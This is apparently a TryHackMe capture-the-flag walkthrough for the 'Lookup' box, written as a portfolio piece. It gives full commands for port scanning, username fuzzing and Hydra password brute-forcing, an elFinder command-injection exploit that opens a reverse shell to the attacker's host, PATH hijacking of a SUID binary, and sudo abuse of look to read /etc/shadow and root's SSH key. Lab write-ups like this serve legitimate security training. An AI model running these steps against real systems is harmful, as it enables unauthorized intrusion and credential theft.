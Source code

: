 # Lookup - TryHackMe Walkthrough

## 🧩 Overview

- **Platform:** TryHackMe
- **Box Name:** Lookup
- **Difficulty:** Easy
- **Date Completed:** 16/07/2025
- **Summary:** Web login brute-force > PHP RCE via vulnerable elFinder > Privilege escalation to user through SUID PATH hijack > Root via sudo abuse of `look` to access SSH private key.

---

## 1. 🔍 Enumeration

### Port Scanning

```bash
nmap -p- --open -sS -n -T4 -vvv 10.10.102.13 -oN full_tcp_scan.txt
```

- Port 22: SSH
- Port 80: HTTP

Follow-up service scan:

```bash
nmap -p 22,80 -sC -sV -n -T4 -vvv 10.10.102.13 -oN targeted_scan.txt
```

- Port 22: OpenSSH 8.2p1 (Ubuntu 4ubuntu0.9)
- Port 80: Apache/2.4.41 (Ubuntu)

---

### Web Enumeration

The IP resolves as `lookup.thm`, which I added to `/etc/hosts`. Visiting the site shows a login form at `/index.php`.

I used `gobuster` to look for additional content:

```bash
gobuster dir -u <target ip> -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50 -o gobuster_results.txt -k -r
```

Only `/index.php` appeared relevant.

---

### Login Portal Analysis

Using Burp Suite, I tested login responses. Submitting a known username (`admin`) and a dummy password gives:

```
Wrong password. Please try again.<br>Redirecting in 3 seconds.
```

Trying a non-existent username shows:

```
Wrong username or password. Please try again.<br>Redirecting in 3 seconds.
```

This difference in responses can be used to fuzz for valid usernames.

---

### Username Fuzzing (ffuf)

```bash
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt \
     -X POST \
     -u http://lookup.thm/login.php \
     -d 'username=FUZZ&password=REDACTED' \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -fr "Wrong username or password"
```

🧠 **Learning:** Spent a long time trying to fuzz usernames with Hydra to no avail. Switched to `ffuf` and got results instantly.

- Valid username found: `jose`

---

### Password Bruteforce (Hydra)

```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password" -f -V

```

- Credentials found: `jose:REDACTED`

---

## 2. 💥 Initial Foothold

After logging in, the portal revealed a file manager interface powered by **elFinder v2.1.47**, which is vulnerable to command injection (CVE-2019-9194).

Exploitation was done using this PoC:

https://github.com/hadrian3689/elFinder_2.1.47_php_connector_rce

```bash
python3 elfinder.py -t http://files.lookup.thm/elFinder/ -lh <lhost> -lp 4305
```

This gave a reverse shell as `www-data`.

---

## 3. 🚀 Privilege Escalation

### User Privilege Escalation – think

In `/home/think/`, `user.txt` was present but unreadable by `www-data`. Searching for SUID binaries revealed `/usr/sbin/pwm`.

```bash
strings pwm
```

The binary:

- Executes the `id` command.
- Parses the username from the output.
- Constructs a path: `/home/<username>/.passwords`
- Attempts to read that file.

Since `id` isn’t invoked with an absolute path, I performed PATH hijacking:

```bash
echo -e '#!/bin/bash\necho "uid=1000(think) gid=1000(think) groups=1000(think)"' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
```

Running `pwm` now reads the file `/home/think/.passwords`, which contained a long list of possible passwords.

Bruteforcing with Hydra:

```bash
hydra -l think -P lookup.txt ssh://<target ip>
```

- Valid credentials found: `think:REDACTED`
- User flag located at `/home/think/user.txt`

---

### Root Privileges – Sudo Abuse with `look`

Checking `sudo -l` revealed:

```bash
User think may run the following commands:
    (ALL) /usr/bin/look
```

According to GTFOBins, `look` can read files when passed an empty search string:

```bash
sudo look "" /etc/shadow
```

This revealed password hashes. While running a cracker, I also checked `/root/.ssh/id_rsa`:

```bash
sudo look "" /root/.ssh/id_rsa
```

Found a full private SSH key. Saved it, set correct permissions, and logged in as root:

```bash
ssh -i lookup_id root@[target ip]
```

Root flag retrieved from `/root/root.txt`.

---

## 📝 Key Learnings

- `ffuf` is significantly more effective for username fuzzing than Hydra in certain cases.
- PATH hijacking with custom scripts is a common vector in CTF-style privilege escalation.
- It’s worth checking SUID binaries with `strings` to infer logic and potential abuse paths.
- CVE research and GitHub PoCs can provide quick paths to initial access.
- GTFOBins is a powerful resource when enumerating sudo permissions.

---


## 🛠️ Tools Used

- `nmap`
- `gobuster`
- `ffuf`
- `hydra`
- `netcat`
- `Burp Suite`
- `python3`
- `GTFOBins`
- `strings`, `chmod`, `export`, `sudo`

---

## ✅ Box Completed: Lookup

🎯 **Goal:** Demonstrated enumeration, exploitation, and both user and root privilege escalation paths using common tools and manual analysis.

📘 **Portfolio Note:** This was a great learning opportunity for chaining multiple low-privilege issues into a full box compromise and reinforces the importance of detail during enumeration.
